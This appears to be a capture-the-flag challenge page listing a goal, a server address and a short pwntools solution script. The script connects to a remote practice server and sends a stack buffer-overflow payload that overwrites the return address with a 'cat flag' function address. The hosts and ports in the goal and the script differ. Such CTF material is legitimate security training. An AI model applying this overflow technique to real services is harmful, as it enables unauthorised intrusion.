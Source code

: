 #### Goals
 * Try to find the flag

#### Server Address
 * nc pwn.sniperoj.com 20002

#### Solution
```python
#!/usr/bin/env python

from pwn import *

# Io = process("./bof")
Io = remote("www.sniperoj.cn", 30000)
cat_flag_addr = p64(0x0000000000400616)
payload = cat_flag_addr * 4
Io.send(payload)
Io.interactive()
```

#### Writeups
 * [Offical Writeup]()
 * [Other Writeup]()

